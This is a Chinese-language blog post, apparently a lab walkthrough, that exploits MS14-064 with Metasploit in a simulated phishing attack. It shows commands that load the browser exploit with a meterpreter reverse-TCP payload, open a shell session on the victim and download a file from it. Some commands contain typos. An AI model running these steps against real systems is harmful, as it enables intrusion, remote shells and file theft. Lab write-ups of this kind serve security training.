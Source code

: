 ```yaml
---
layout: post
title:  ms14_064漏洞利用(钓鱼模拟)
date: 2021-03-27 16:18:29 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 确定攻击者IP、跳板机IP和受害者IP](#0x0-确定攻击者ip跳板机ip和受害者ip)
- [0x1 使用kail的metasploit生成钓鱼网站链接](#0x1-使用kail的metasploit生成钓鱼网站链接)
- [0x2 将钓鱼网站链接放置在跳板机（服务器中）](#0x2-将钓鱼网站链接放置在跳板机服务器中)
- [0x3 受害者访问钓鱼链接](#0x3-受害者访问钓鱼链接)
- [0x4 kail建立连接以及获取shell](#0x4-kail建立连接以及获取shell)
- [0x5 搜索可疑文件](#0x5-搜索可疑文件)
- [0x6 下载可疑文件](#0x6-下载可疑文件)

<!-- /TOC -->
## 0x0 确定攻击者IP、跳板机IP和受害者IP

```c
192.168.88.130 //kail
192.168.88.138 //跳板机
192.168.88.139 //受害者
```
## 0x1 使用kail的metasploit生成钓鱼网站链接

```c
msfconsole
use exploit/windows/browser/ms14_064_ole_code_execution
set payload windows/meterpreter/reserse_tcp
set lhost 192.168.88.130
set allowpowershellprompt ture //设置浏览器插件
exploit
```
![](https://lcy2218.github.io/images/20210327-1.png)

## 0x2 将钓鱼网站链接放置在跳板机（服务器中）

![](https://lcy2218.github.io/images/20210327-2.png)
![](https://lcy2218.github.io/images/20210327-3.png)

## 0x3 受害者访问钓鱼链接

![](https://lcy2218.github.io/images/20210327-4.png)

## 0x4 kail建立连接以及获取shell

```c
sessions //查看会话
sessions -i 1 //获取shell
```
![](https://lcy2218.github.io/images/20210327-5.png)
![](https://lcy2218.github.io/images/20210327-6.png)
![](https://lcy2218.github.io/images/20210327-7.png)

## 0x5 搜索可疑文件
![](https://lcy2218.github.io/images/20210327-8.png)
![](https://lcy2218.github.io/images/20210327-9.png)

## 0x6 下载可疑文件

```c
download c:/lcy1.txt /root //meterpreter模式下
```
![](https://lcy2218.github.io/images/20210327-10.png)
![](https://lcy2218.github.io/images/20210327-11.png)